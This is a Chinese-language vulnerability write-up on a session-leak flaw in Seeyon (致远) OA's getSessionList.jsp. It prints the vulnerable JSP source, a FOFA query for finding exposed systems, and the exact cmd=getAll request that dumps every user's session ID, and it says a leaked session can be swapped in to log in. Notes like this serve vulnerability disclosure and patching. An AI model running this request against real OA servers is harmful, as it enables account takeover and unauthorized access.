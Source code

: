 # 

# 致远OA getSessionList.jsp Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 漏洞影响

未知

## 网络测绘

```
app="致远互联-OA"
```

## 漏洞复现

出现漏洞的源码

```
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```

从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞

![image-20220520153805805](./images/202205201538850.png)

通过替换 Session即可登陆系统

